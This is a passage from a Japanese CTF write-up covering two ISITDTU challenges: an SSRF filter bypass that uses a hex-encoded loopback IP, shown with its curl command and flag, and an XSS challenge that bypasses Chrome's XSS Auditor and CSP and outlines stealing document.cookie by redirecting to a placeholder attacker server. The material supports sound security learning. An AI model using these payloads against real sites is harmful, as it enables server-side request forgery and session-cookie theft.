 `return result[1] if result[0] == result[1] else False` から `http://127.0.0.1:3333` の内容がフラグであることがわかります。

`inet_aton` が柔軟で、`0x7f.0.0.1` のように 16 進数が含まれるような IP アドレスであってもちゃんとパースしてくれることを利用しましょう。

`http://0x7f.0x0.0x0.0x1:3333` を入力するとフラグが得られました。

```
>curl http://45.77.247.11/request -d "url=http://0x7f.0x0.0x0.0x1:3333"
︙
            <div class="alert alert-success" role="alert">
              Wow! You are so cool. This is flag for you: <b>ISITDTU{warmup task is not that hard}</b>
            </div>
︙
```

```
ISITDTU{warmup task is not that hard}
```

### XSSgame1 (856)
> This is a XSS game, Try execute script and get cookie in Chrome 
> (URL)

与えられた URL にアクセスすると、XSS 可能なページ (`/?pl=xss`) と bot に URL をクロールさせられるページ (`submit.php`) へのリンクが表示されました。

`/?pl=xss` にアクセスしてみます。

```html
/*** We prevent change the location ***:
<script>Object.freeze(location);</script>xss<br><script>location='http://xss';</script>
```

`</script>` の直後と `location` に代入される URL の部分にユーザ入力が出力されるようです。

`'` やバックティックを入力すると `Not Allow` と表示され弾かれてしまいますが、`<` `>` `"` 等についてはそのまま出力され XSS が可能です。

HTTP レスポンスヘッダを見ると `Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';sandbox allow-scripts allow-same-origin` のように CSP によって同じオリジン以外に `img` 要素等でリクエストを発生させられないようにしていることがわかります。また、`X-XSS-Protection: 1; mode=block` のように XSS Auditor がブロックモードで有効化されています。

まず XSS Auditor をバイパスする方法を考えましょう。[Browser's XSS Filter Bypass Cheat Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet#2%E3%81%A4%E4%BB%A5%E4%B8%8A%E3%81%AE%E6%B3%A8%E5%85%A5%E3%83%9D%E3%82%A4%E3%83%B3%E3%83%88%E3%81%8C%E3%81%82%E3%82%8B%E5%A0%B4%E5%90%88) を参考に、`/?pl=%22;console.log(1)//%3Cscript%3Ea=%22` でバイパスできました。

```html
/*** We prevent change the location ***:
<script>Object.freeze(location);</script>";console.log(1)//<script>a="<br><script>location='http://";console.log(1)//<script>a="';</script>
```

あとは `location.href="http://(攻撃者のサーバ)?"+document.cookie` でフラグが得られそうですが、`Object.freeze(location);` によって `location` オブジェクトが凍結されており、できません。

`location` オブジェクトには `location.href` のように URL を代入することで遷移させることのできるプロパティのほか、[`location.assign`](https://developer.mozilla.org/ja/docs/Web/API/Location/assign) という引数として URL を与えることで同様の動作をする関数があります。これなら代入の必要はなく、`Object.freeze` の影響は受けません。
